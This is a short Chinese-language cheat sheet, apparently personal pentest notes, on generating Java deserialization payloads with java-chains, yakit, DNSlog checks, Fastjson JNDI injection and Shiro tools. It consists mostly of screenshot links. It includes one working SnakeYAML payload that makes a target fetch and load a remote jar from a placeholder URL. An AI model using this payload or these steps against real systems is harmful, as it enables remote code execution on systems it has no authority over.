## Java Chains  生成java payload  readobject

要用java8

```
java -jar ~/Desktop/java-chains-1.4.1.jar
```

注意生成的账号和密码  



用来生成反序列化链



## yakit 生成反序列化链   readobject

### 1 



### 2 DNSlog

生成可用域名





通过回显看是否成功



### SnakeYAML 反序列化



```
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ['http://XXXXXXX替换远程加载的文件yaml-payload.jar']]]]
```

### Fastjson 用  JNDI-Injection-Exploit-1.0-SNAPSHOT-all





### Fastjson





### Shiro 反序列化 直接用工具

